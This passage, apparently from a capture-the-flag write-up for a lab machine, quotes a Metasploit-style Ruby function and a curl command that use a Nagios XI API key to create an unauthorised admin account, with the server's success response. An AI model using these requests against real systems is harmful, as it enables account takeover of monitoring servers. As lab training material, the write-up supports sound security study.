 ```python
  def try_add_admin(key, username, passwd)
    vprint_status "STEP 3: trying to add admin user with key #{key}"
    res = send_request_cgi({
      'uri'=> "/nagiosxi/api/v1/system/user",
      'method' => 'POST',
      'ctype' => 'application/x-www-form-urlencoded',
      'vars_get' => {
        'apikey' => key,
        'pretty' => 1
      },
      'vars_post' =>{
        'username'   => username,
        'password'   => passwd,
        'name'       => rand_text_alpha(rand(5) + 5),
        'email'      =>"#{username}@localhost",
        'auth_level' =>'admin',
        'force_pw_change' => 0
      }
    })
```

Note that it tries to create/add an admin account, and it passes a parameter `auth_level=admin`. Let's combine cURL with this information and try to create this admin account:

```bash
$ curl -k -L -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=mula&password=mula&name=mula&email=mula@localhost&auth_level=admin"
{
    "success": "User account mula was added successfully!",
    "user_id": 6
}
```

And now we try to login within the browser:

<img src="../figs/monitored8.png" alt="login successful">
